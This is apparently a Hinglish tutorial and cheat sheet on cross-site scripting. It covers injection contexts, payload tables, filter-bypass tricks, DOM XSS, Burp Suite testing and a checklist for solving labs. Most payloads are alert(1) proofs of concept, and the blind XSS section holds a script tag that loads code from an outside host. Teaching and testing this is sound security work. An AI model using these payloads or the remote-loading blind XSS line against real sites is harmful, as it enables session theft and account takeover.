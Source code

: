 # Hacker Plan

### ✅ Step 1: XSS ka DNA — Reflection + Execution

XSS hone ke liye do cheezein zaroori hain:

- Reflection → Tumhara input page pe visible ya hidden form mein aaya

- Execution → Browser ne us input ko text nahi, code samjha

### 🧠 Tip:

Agar input sirf dikh rahi hai (text), to XSS nahi
Agar input JS ki tarah run ho rahi hai — boom! Alert chala to XSS confirmed!

---

### ✅ Step 2: 6 Contexts Jahan XSS hota hai

| Context Name            | Example Reflection              | XSS Payload                 |
| ----------------------- | ------------------------------- | --------------------------- |
| HTML                    | `<div>input_here</div>`         | `<script>alert(1)</script>` |
| Attribute               | `<img src="input_here">`        | `x" onerror="alert(1)`      |
| JS Context              | `var a = "input_here";`         | `";alert(1);//`             |
| URL                     | `<a href="input_here">`         | `javascript:alert(1)`       |
| Event Handler           | `<button onclick="input_here">` | `alert(1)`                  |
| Comment / Style / Title | `<!-- input_here -->`           | XSS not possible mostly     |


🧠 Tip:
Pehle inspect karo ya page source check karo — kis context mein input reflect ho rahi hai, uske hisaab se payload banao.

---

### ✅ Step 3: Bypass Techniques

| Bypass Type        | Payload Example                                                        |
| ------------------ | ---------------------------------------------------------------------- |
| Tag-based          | `<svg/onload=alert(1)>`, `<iframe srcdoc="<script>alert(1)</script>">` |
| Encoding           | `%3Cscript%3Ealert(1)%3C/script%3E`                                    |
| Broken Tags        | `<scr<script>ipt>alert(1)</scr<script>ipt>`                            |
| Event Bypass       | `autofocus onfocus=alert(1)`                                           |
| Attribute Breaking | `x" onmouseover="alert(1)`                                             |
| HTML Entity        | `&lt;svg/onload=alert(1)&gt;`                                          |

Tip:

Jab <script> block ho, to svg, iframe, math, img, input, body, details, select — sab test kar.

---

### ✅ Step 4: IFRAME ka Use XSS mein
📌 Purpose:
Hidden XSS run karne ke liye

Other payloads inject karne ke liye (CSP bypass / clickjacking etc.)

✅ Example Payload:

```<iframe srcdoc="<script>alert('XSS')</script>"></iframe>```

srcdoc iframe ka andar ka HTML define karta hai

Yahan <script> tag directly run hota hai

🧠 Note:

iframe payloads mostly HTML context mein use hote hain — ya jab normal tags block ho jaayein

---

### ✅ Step 5: SVG ka Use XSS mein
📌 Purpose:
<script> tag block ho to alternate route

SVG browser ke liye trusted hota hai (graphics tag hai)

---

### Step 6: DOM-Based XSS Samajh
📌 Jab JS code input uthakar page mein inject karta hai

🔍 Jaise:

```let q = location.hash;```
```document.getElementById("result").innerHTML = q;```

✅ Exploit:

```http://example.com/#<img src=x``` ```onerror=alert(1)>```

🧠 DOM XSS ka source hota hai: location, location.hash, document.referrer, etc.

---

### ✅ Step 7: Blind XSS

📌 Jab tu payload daale, alert tere samne nahi chalta — lekin backend user (admin) ke saamne chalta hai.

Example Payload:

```<script src=//xss.habib.com/x.js></script>```

🧠 Use tools like XSSHunter, Interactsh, ya apna webhook.site

---

### ✅ Step 8: XSS Detection via BurpSuite

- Intercept request
- Send to Repeater
- **Inject payloads in:**

- Query parameters
- Headers (User-Agent, Referer)
- POST body
- Cookies
- Check Reflection

Match context → fire payload

---

### Step 9: Real World Payloads

| Situation              | Try This                                    |
| ---------------------- | ------------------------------------------- |
| Input inside HTML      | `<img src=x onerror=alert(1)>`              |
| Input inside attribute | `" onmouseover=alert(1) x="`                |
| JS block               | `';alert(1);//`                             |
| Input in URL           | `javascript:alert(1)`                       |
| Tag blocked            | `<svg/onload=alert(1)>`                     |
| CSP enabled            | `<iframe srcdoc=...>` or use event chaining |

---

### ✅ Step 10: Jab Lab Naa Ho Solve — Yeh Checklist Follow Kar

Input reflect ho rahi hai?
→ Agar nahi: Encode karke try karo, Burp mein send karo

Kis tag ke andar jaa rahi hai?
→ ```<div>, href="", src="",``` etc. → us context ka payload use karo

Encoding ho rahi hai?
→ Try encoded payload ```(%3Cscript%3Ealert(1)%3C/script%3E)```

Tag blocked hai?
→ Use: ```<svg>, <math>, <iframe srcdoc=...>,``` ```onerror, onfocus, autofocus, tabindex```

Browser inspect element open karo
→ Dekho input kahan gaya hai → wahi context hit karo

BurpSuite repeater mein input daal ke dekho
→ Reflect ho raha hai ya nahi

DOM XSS lag raha?
→ Check karo: location, hash, document.write, innerHTML

Alert nahi aaya to server-side encode kar raha?
→ Base64, URL encode, HTML entity detect kar

💡 Final Hacker Line:
"XSS koi ek payload ka game nahi — ye context, reflection aur browser behavior ka full formula hai.
Jahan ye tino mil gaye — wahan XSS guaranteed hai."